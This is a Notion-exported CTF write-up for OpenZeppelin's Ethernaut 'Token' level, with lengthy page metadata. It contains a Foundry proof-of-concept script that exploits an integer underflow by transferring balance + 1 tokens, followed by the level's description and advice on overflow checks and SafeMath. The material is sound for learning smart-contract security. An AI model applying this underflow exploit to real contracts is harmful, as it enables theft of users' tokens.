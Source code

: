 ```yaml
---
title: "Token"
date: "2024-02-01"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Telephone-8b2069f0beb045b69400a28665c1d56c"
weight: 6
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/5"
next: "Delegation-0c005c8b167c4966926771bad0ff918c"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "4a8cb876-5f8c-4121-90f2-db4a7989f9b5"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Telephone-8b2069f0beb045b69400a28665c1d56c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone-8b2069f0beb045b69400a28665c1d56c"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-14T16:51:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 6
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/5"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Delegation-0c005c8b167c4966926771bad0ff918c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation-0c005c8b167c4966926771bad0ff918c"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Token"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token"
          href: null
  url: "https://www.notion.so/Token-4a8cb8765f8c412190f2db4a7989f9b5"
  public_url: null
UPDATE_TIME: "2024-02-23T20:54:57.446Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```


The goal of this level is for you to hack the basic token contract below.


You are given 20 tokens to start with and you will beat the level if 
you somehow manage to get your hands on any additional tokens. 
Preferably a very large amount of tokens.


Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:


```text
if(a + c > a) {
  a = a + c;
}

```


An easier alternative is to use OpenZeppelin's SafeMath library that 
automatically checks for overflows in all the mathematical operators. 
The resulting code looks like this:


```text
a = a.add(c);

```


If there is an overflow, the code will revert.

